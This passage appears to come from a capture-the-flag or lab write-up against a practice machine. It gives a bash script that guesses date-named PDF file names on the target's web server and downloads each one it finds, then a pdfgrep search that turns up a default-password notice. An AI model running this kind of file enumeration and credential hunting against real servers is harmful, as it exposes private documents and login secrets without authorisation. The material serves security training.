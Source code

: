 - William.Lee
- Jose.Williams

As the format for PDFs is in the form of Year-Month-Day we can create a bash script to enumerate and download all available files.

```bash
#!/bin/bash

URL="http://10.129.156.112/documents/"

# Function to generate all possible date patterns for the year 2020
generate_date_patterns() {
  local start_month=1
  local end_month=12
  local days_in_month=("31" "28" "31" "30" "31" "30" "31" "31" "30" "31" "30" "31")

  for ((month = start_month; month <= end_month; month++)); do
    # Determine the maximum day for the current month
    local max_day="${days_in_month[month - 1]}"

    for ((day = 1; day <= max_day; day++)); do
      # Formatting the day and month with leading zeros if needed
      formatted_month=$(printf "%02d" "$month")
      formatted_day=$(printf "%02d" "$day")

      # Generating the date pattern in YYYY-MM-DD format for the year 2020
      pattern="2020-${formatted_month}-${formatted_day}"

      # Construct the complete URL with the date pattern and file extension
      file_url="${URL}${pattern}-upload.pdf"

      # Check if the file exists (return code 200) before attempting to download
      if wget --spider "$file_url" 2>/dev/null; then
        # Download the file using wget if it exists
        wget "$file_url"
      else
        echo "File not found: $file_url"
      fi
    done
  done
}

# Call the function to generate date patterns and download files for the year 2020
generate_date_patterns
```


After the files were downloaded I thought that some of them might contain usernames or passwords so rather than going through all the pdfs one by one, I used pdfgrep
```bash
$ find . -iname '*.pdf' -exec pdfgrep username {} +
./bruteforce/2020-06-04-upload.pdf:Please login using your username and the default password of:
```
